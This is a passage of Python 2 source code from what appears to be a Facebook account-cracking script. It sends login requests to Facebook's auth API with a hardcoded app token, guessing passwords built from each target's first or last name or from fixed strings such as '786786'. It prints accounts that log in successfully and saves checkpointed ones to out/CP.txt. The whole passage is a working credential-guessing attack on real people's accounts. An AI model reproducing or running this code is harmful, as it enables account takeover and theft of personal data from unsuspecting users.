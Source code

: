 									cek.close()
									cekpoint.append(user+pass4)
								else:
									pass4 = b['first_name'] + '1234'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass4 + ' 👽 ' + b['name']
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass4 + ' 👽 ' + b['name']
											cek = open("out/CP.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = '786786'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass5 + ' 👽 ' + b['name']
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass5 + ' 👽 ' + b['name']
													cek = open("out/CP.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['last_name'] + '123'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass6 + ' 👽 ' + b['name']
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass6 + ' 👽 ' + b['name']
															cek = open("out/CP.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															pass7 = 'Afghanistan'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q: